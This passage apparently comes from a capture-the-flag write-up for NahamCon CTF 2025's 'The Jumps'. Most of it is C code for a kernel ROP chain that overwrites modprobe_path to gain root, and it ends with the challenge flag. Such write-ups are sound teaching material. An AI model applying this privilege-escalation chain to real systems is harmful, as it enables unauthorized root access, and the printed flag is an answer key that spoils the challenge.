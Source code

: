 ```C
  uint64_t payload[0x200];
  int canary_idx = 4;
  payload[canary_idx++] = canary;
  payload[canary_idx++] = 0x0;
  payload[canary_idx++] = pop_rax_ret;
  payload[canary_idx++] = 0x73752f656d6f682f;
  payload[canary_idx++] = pop_rdi_ret;
  payload[canary_idx++] = modprobe_path;
  payload[canary_idx++] = write_rax_to_rdi;
  payload[canary_idx++] = pop_rax_ret;
  payload[canary_idx++] = 0x772f7265;
  payload[canary_idx++] = pop_rdi_ret;
  payload[canary_idx++] = modprobe_path + 0x8;
  payload[canary_idx++] = write_rax_to_rdi;
  payload[canary_idx++] = swapgs_restore_regs_and_return_to_usermode + 22;
  payload[canary_idx++] = 0;
  payload[canary_idx++] = 0;
  payload[canary_idx++] = (uint64_t)abuse_modprobe;
  payload[canary_idx++] = user_cs;
  payload[canary_idx++] = user_rflags;
  payload[canary_idx++] = user_sp;
  payload[canary_idx++] = user_ss;

  dump_hex((char *)payload, 0xc0);
  write(fd, (char *)payload, 0xc0);  
}

```

For the `libpwn.c` can be see in the [github repo](https://github.com/Hazy0189/ctf-archieve/tree/main/CTFTime/2025/NahamCon%20CTF%202025/The%20Jumps).

### Flag

`flag{682cc8a83e022703fe1527b1b3bba748}`
